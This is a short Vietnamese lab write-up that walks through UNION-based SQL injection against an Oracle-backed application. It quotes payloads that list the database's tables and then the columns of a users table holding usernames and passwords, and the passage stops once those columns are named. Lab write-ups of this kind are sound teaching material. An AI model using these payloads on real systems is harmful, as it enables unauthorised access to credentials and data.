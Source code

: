 Tương tự như lab trước nhưng do ứng dụng sử dụng Oracle database nên payload có chút khác biệt.

Chúng ta biết được số cột mà câu truy vấn trả về là 2 nên sử dụng payload `' UNION SELECT table_name, NULL FROM all_tables--` để liệt kê các bảng của database:

![image](images/lab-8/lab-8.png)

Tiếp theo, để liệt kê các cột của bảng `USERS_XAFIWJ`, chúng ta dùng payload `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_XAFIWJ'--`.

Có 2 cột là `PASSWORD_OSXRXI` và `USERNAME_ORDSTE`:
